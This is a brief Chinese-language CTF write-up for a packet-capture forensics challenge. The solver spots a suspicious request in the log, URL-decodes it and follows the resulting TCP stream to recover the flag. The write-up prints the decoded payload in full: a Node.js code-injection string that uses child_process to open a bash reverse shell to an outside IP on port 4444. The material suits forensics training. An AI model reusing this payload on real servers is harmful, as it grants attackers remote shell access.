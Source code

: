 # Forbidden Manuscript
## Solution
題目給的是封包 log，粗略看一下可以看到第 103 個封包的 request 參數最奇怪，如下圖。
![](../img/forbidden_manuscript_pcapng.png)
對參數做 Url decode，發現是一個 reverse shell，使用 port 4444 接收資料
```
exploit() {} && ((()=>{ global.process.mainModule.require("child_process").execSync("bash -c 'bash -i >& /dev/tcp/192.168.56.104/4444 0>&1'"); })()) && function pwned
```
再看到 log 裡後面的封包都是跟 4444 有關的，使用 WireShark 的 "Follow TCP Stream" 觀看傳輸的資料，可以看到攻擊者正在 cat flag
![](../img/forbidden_manuscript_pcapng2.png)
將 flag 從 hex 轉回文字就可以得到 flag
